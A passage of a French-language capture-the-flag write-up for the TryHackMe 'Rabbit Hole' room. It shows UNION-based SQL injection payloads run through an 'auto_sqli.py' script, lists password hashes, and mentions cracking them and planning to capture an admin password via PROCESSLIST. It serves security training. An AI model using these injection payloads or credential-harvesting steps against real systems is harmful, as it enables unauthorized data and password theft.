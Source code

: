 ```python
if __name__ == "__main__":
    main()
```

![full hashes](/images/THM-RabbitHole/full_hashes.png)

```
0e3ab8e45ac1163c2343990e427c66ff
a51e47f646375ab6bf5dd2c42d3e6181
de97e75e5b4604526a2afaed5f5439d7
```

Nous n'arrivons pas à craquer le hash `admin` et bien que nous craquions les deux autres hashs, nous ne pouvons pas utiliser les mots de passe pour nous connecter via SSH.

![cracked passwords](/images/THM-RabbitHole/foobar_pwd.png)

![failed SSH logins](/images/THM-RabbitHole/failed_SSH.png)

Nous vérifions également la table `logins` mais elle ne contient que `username` et `login_time` ce qui n'est pas utile.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name="logins" AND table_schema=DATABASE(); --'
```

![logins table](/images/THM-RabbitHole/logins_table.png)

Voyons quelle(s) autre(s) base(s) de données nous avons.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, schema_name FROM information_schema.schemata; --'
```

![full databases names](/images/THM-RabbitHole/full_db_names.png)

Outre la base de données `web`, nous avons la base de données `information_schema`.

## Extraction de requêtes SQL

> Tout le mérite de cette partie revient à `jaxafed` dont l'article est disponible [ici](https://jaxafed.github.io/posts/tryhackme-rabbit_hole/#extracting-the-current-queries). Je n'ai pas été capable de faire le lien entre les connexions automatiques et la base de données.

À ce stade, nous avons épuisé un grand nombre d'options, mais il reste encore des pistes à explorer. Rappelez-vous que nous avions remarqué que l'utilisateur `admin` se connectait **toutes les minutes**, ce qui indique manifestement une sorte d'automatisation. 

Il s'avère que nous pouvons utiliser la commande `PROCESSLIST` pour voir quelles requêtes sont effectuées en arrière-plan et si notre timing est bon, le mot de passe de l'administrateur sera exposé. _Plus d'informations sur `PROCESSLIST` [ici](https://mariadb.com/kb/en/information-schema-processlist-table/)._
